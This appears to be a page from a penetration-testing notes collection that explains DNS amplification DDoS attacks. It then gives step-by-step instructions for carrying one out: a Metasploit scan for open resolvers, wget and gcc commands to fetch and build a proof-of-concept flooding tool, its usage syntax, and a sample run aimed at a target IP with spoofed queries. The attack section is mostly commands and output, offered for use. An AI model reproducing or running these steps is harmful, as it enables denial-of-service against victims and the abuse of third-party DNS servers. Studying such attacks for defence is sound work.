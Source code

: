 # What is DNS Traffic Amplification?

A DNS (Traffic) Amplificaton attack is a popular form of a distributed denial of service (DDoS) attack, which abuses open DNS resolvers to flood a target system with DNS response traffic. It's called an *amplification* attack because it uses DNS responses to upscale the size of the data sent to the victim.

# How does it work?

An attacker sends a DNS name lookup to an open resolver with the source IP spoofed to be the victim's IP address. That way, any response traffic would be sent to the victim and not the attacker. The requests submitted by the attacker usually aim to query for as much information as possible in order to maximise the amplification effect. In most cases, the queries sent are of type `ANY` which requests all known information about a particular DNS zone. Using a botnet, it's easy to create immense amounts of traffic. It is also rather difficult to protect against these attacks because the traffic is coming from legitimate sources - real DNS servers.

## Conducting a DNS Traffic Amplification Attack
### Testing a DNS server for attack surface

We should first check if a DNS Traffic Amplification is possible and if it's viable. We can do this through [Metasploit]() using the module `auxiliary/scanner/dns/dns_amp`.

![](Resources/Images/msf6-dns-amp.png)

In the `RHOSTS` you need to put the IP of the name server you want to test. *This module will tell you if a name server can be used in an amplification attack but won't actually execute the attack.*

Run the scanner:

![](Resources/Images/msf6-dns-amp-sc-run.png)

### Executing the attack

A simple tool is available only as a proof of concept [here](https://github.com/rodarima/lsi/blob/master/entrega/p2/dnsdrdos.c). You will need to download and then compile it:

```bash
wget https://raw.githubusercontent.com/rodarima/lsi/master/entrega/p2/dnsdrdos.c
```
```bash
gcc -o dnsdrdos dnsdrdos.c -Wall -ansi
```
```bash
┌──(cr0mll@kali)-[~/MHN/DNS]-[]
└─$ wget https://raw.githubusercontent.com/rodarima/lsi/master/entrega/p2/dnsdrdos.c
--2021-09-21 13:01:11--  https://raw.githubusercontent.com/rodarima/lsi/master/entrega/p2/dnsdrdos.c
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 185.199.111.133, 185.199.110.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 15109 (15K) [text/plain]
Saving to: ‘dnsdrdos.c’

dnsdrdos.c                                                  100%[========================================================================================================================================>]  14.75K  --.-KB/s    in 0.001s  

2021-09-21 13:01:11 (17.9 MB/s) - ‘dnsdrdos.c’ saved [15109/15109]

┌──(cr0mll@kali)-[~/MHN/DNS]-[]
└─$ gcc -o dnsdrdos dnsdrdos.c -Wall -ansi
```

Now, create a file containing the IP's of each DNS server you want to use in the attack (only one IP per line). Use the following syntax to run the attack:

```bash
sudo ./dnsdrdos -f <dns servers file> -s <target IP> -d <domain> -l <number of loops through the list>
```
```bash
┌──(cr0mll@kali)-[~/MHN/DNS]-[]
└─$ sudo ./dnsdrdos -f dns_servers -s 192.168.129.2 -d nsa.gov -l 30
-----------------------------------------------    
dnsdrdos - by noptrix - http://www.noptrix.net/    
-----------------------------------------------

┌──(cr0mll@kali)-[~/MHN/DNS]-[]
└─$
```

The output may be empty, but the packets were sent. You can verify this with `wireshark`:

![](Resources/Images/dnsdrdos-wireshark.png)
